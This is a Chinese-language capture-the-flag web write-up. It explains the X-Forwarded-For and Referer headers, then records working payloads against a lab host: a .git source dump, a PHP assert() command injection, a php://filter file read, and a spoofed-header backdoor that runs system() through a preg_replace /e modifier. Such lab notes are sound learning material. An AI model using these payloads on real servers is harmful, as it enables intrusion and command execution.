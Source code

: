 （1）X-Forwarded-For:简称XFF头，它代表客户端，也就是HTTP的请求端真实的IP，只有在通过了HTTP 代理或者负载均衡服务器时才会添加该项。xff 是http的拓展头部，作用是使Web服务器获取访问用户的IP真实地址（可伪造）。由于很多用户通过代理服务器进行访问，服务器只能获取代理服务器的IP地址，而xff的作用在于记录用户的真实IP，以及代理服务器的IP。

（2）HTTP Referer是header的一部分，当浏览器向web服务器发送请求的时候，一般会带上Referer，告诉服务器我是从哪个页面链接过来的，服务器基此可以获得一些信息用于处理。referer 是http的拓展头部，作用是记录当前请求页面的来源页面的地址。服务器使用referer确认访问来源，如果referer内容不符合要求，服务器可以拦截或者重定向请求。&#x20;

git漏洞

```
http://61.147.171.105:49636/.git/
```

下载源码：

```
pip install githacker
mkdir mfw
githacker --url http://61.147.171.105:49636/--output-folder mfw/
```

审计代码发现传入的page参数拼接到$file变量中，然后$file又被传入到assert函数去执行，存在assert命令注入，poc如下

```
page=') or system('cat ./templates/flag.php');//
即：
http://61.147.171.105:49636/?page=%27)%20or%20system(%27cat%20./templates/flag.php%27);//
```

这时, assert函数就变成了 :

assert("strpos('templates/') or system('cat ./templates/flag.php');//.php', '..') === false") or die("Detected hacking attempt!");

后面的代码被注释掉了，真正执行的是assert("strpos('templates/') or system('cat ./templates/flag.php');



#### 文件包含

`page=php://filter/read=convert.base64-encode/resource=index.php`&#x20;

把页面源码进行base64加密输出，否则代码将会直接执行而不显示

poc记录：

```
1#
GET /index.php?page=php://filter/read=convert.base64-encode/resource=index.php

得知需要x-forwarded-for:127.0.0.1开启测试的后门代码：
//方便的实现输入输出的功能,正在开发中的功能，只能内部人员测试
if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

    echo "<br >Welcome My Admin ! <br >";

    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }

}
三个参数：pat随便填  &  rep=system("待执行命令")  &  sub=随便填

2#
先ls一下
GET /index.php?pat=/test/e&rep=system("ls")&sub=test HTTP/1.1
x-forwarded-for:127.0.0.1
```